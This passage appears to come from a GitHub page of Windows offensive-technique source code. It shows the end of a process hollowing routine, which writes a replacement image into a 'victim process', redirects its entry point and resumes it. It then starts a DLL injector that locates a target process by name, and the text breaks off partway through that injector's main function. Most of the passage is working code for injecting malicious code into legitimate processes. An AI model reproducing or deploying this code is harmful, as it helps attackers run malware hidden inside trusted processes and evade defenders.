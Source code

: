 ```C#
		printf("\t[*] Section %s written into victim process at 0x%08x\r\n", pSectionHeader->Name, (UINT)pVictimHollowedAllocation + pSectionHeader->VirtualAddress);
		printf("\t\t[*] Replacement section header virtual address: 0x%08x\r\n", (UINT)pSectionHeader->VirtualAddress);
		printf("\t\t[*] Replacement section header pointer to raw data: 0x%08x\r\n", (UINT)pSectionHeader->PointerToRawData);
	}
	
	
	// Set victim process entry point to replacement image's entry point - change EAX
	victimContext.Eax = (SIZE_T)((LPBYTE)pVictimHollowedAllocation + pNTHeaders->OptionalHeader.AddressOfEntryPoint);
	SetThreadContext(
		pVictimProcessInfo->hThread, 
		&victimContext);
	printf("[+] Victim process entry point set to replacement image entry point in EAX register\n");
	printf("\t[*] Value is 0x%08x\r\n", (UINT)pVictimHollowedAllocation + pNTHeaders->OptionalHeader.AddressOfEntryPoint);

	
	printf("[+] Resuming victim process primary thread...\n");
	ResumeThread(pVictimProcessInfo->hThread);

	printf("[+] Cleaning up\n");
	CloseHandle(pVictimProcessInfo->hThread);
	CloseHandle(pVictimProcessInfo->hProcess);
	VirtualFree(pReplacementImage, 0, MEM_RELEASE);

	return 0;
}
```


### DLL Injection

```C#
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (!strcmp(entry.szExeFile, processName)) {
                    return entry.th32ProcessID;
                }
            } while (Process32Next(hSnapshot, &entry));
        }
    }
    else {
        return 0;
    }
}

int main(int argc, char *argv[]) {

    if (argc != 3) {
        printf("Cannot find require parameters\n");
        printf("Usage: dll-injector.exe <process name> <path to DLL>\n");
```